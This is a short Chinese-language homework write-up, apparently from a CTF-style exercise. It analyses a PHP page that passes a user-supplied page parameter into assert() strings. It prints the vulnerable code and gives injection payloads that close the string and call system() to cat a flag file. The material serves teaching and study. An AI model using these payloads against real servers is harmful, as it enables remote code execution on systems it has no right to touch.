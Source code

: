 #  作业四 web安全assert()漏洞   
原创 豆豆  豆豆咨询   2025-05-31 09:50  
  
一、分析如下代码功能及漏洞，并书写payload  
  
<?php  
  
if (isset($_GET['page'])) {  //判断参数page是否为空  
  
	$page = $_GET['page'];  
  
} else {    //为空输出page=home  
  
	$page = "home";  
  
}  
  
$file = "templates/" . $page . ".php";  
  
// I heard '..' is dangerous!  
  
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");  //查找$file  
  
中..第一次出现的位置，查找成功则返回true，失败则返回flase，  
  
// TODO: Make this look nice  
  
assert("file_exists('$file')") or die("That file doesn't exist!");  
  
?>  
  
<!DOCTYPE html>  
  
<html>  
  
	<head>  
  
		<meta charset="utf-8">  
  
		<meta http-equiv="X-UA-Compatible" content="IE=edge">  
  
		<meta name="viewport" content="width=device-width, initial-scale=1">  
  
		<title>My PHP Website</title>  
  
		<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/twitter-bootstrap/3.3.7/css/bootstrap.min.css" />  
  
	</head>  
  
	<body>  
  
		<nav class="navbar navbar-inverse navbar-fixed-top">  
  
			<div class="container">  
  
		    	<div class="navbar-header">  
  
		    		<button type="button" class="navbar-toggle collapsed" data-toggle="collapse" data-target="#navbar" aria-expanded="false" aria-controls="navbar">  
  
		            	<span class="sr-only">Toggle navigation</span>  
  
		            	<span class="icon-bar"></span>  
  
		            	<span class="icon-bar"></span>  
  
		            	<span class="icon-bar"></span>  
  
		          	</button>  
  
		          	<a class="navbar-brand" href="#">Project name</a>  
  
		        </div>  
  
		        <div id="navbar" class="collapse navbar-collapse">  
  
		          	<ul class="nav navbar-nav">  
  
		            	<li <?php if ($page == "home") { ?>class="active"<?php } ?>><a href="?page=home">Home</a></li>  
  
		            	<li <?php if ($page == "about") { ?>class="active"<?php } ?>><a href="?page=about">About</a></li>  
  
		            	<li <?php if ($page == "contact") { ?>class="active"<?php } ?>><a href="?page=contact">Contact</a></li>  
  
						<!--<li <?php if ($page == "flag") { ?>class="active"<?php } ?>><a href="?page=flag">My secrets</a></li> -->  
  
		          	</ul>  
  
		        </div>  
  
		    </div>  
  
		</nav>  
  
		<div class="container" style="margin-top: 50px">  
  
			<?php  
  
				require_once $file;  
  
			?>  
  
		</div>  
  
		<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/1.12.4/jquery.min.js" />  
  
		<script src="https://cdnjs.cloudflare.com/ajax/libs/twitter-bootstrap/3.3.7/js/bootstrap.min.js" />  
  
	</body>  
  
</html>  
  
回答：  
  
代码分析：  
  
a. assert()函数其实是一个断言函数。  
  
assert：这个函数在php语言中是用来判断一个表达式是否成立。返回true or false;assert ( mixed $assertion [, string $description ] ) : bool  
  
　　如果 assertion 是字符串，它将会被 assert() 当做 PHP 代码来执行。  
  
b. strpos() 函数查找字符串在另一字符串中第一次出现的位置，如果没有找到则返回flase，  
  
c. 关键漏洞分析：  
  
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");  
  
由于文件并没有对输入的字符进行过滤，可以进行语句闭合修改语句原本的意思，构建的  
payload:    
 /?page=');//                                            [#双斜杠]()  
 " // " 再php中表示注释  
  
d. payload  
  
假设我们已经知道flag位于/templates/flag.php路径下，payload的构建可以直接一步到位，不用再用system('ls+xxx')回显路径，最后的  
payload：    /?page=').system('cat+./templates/flag.php');//      
  
  
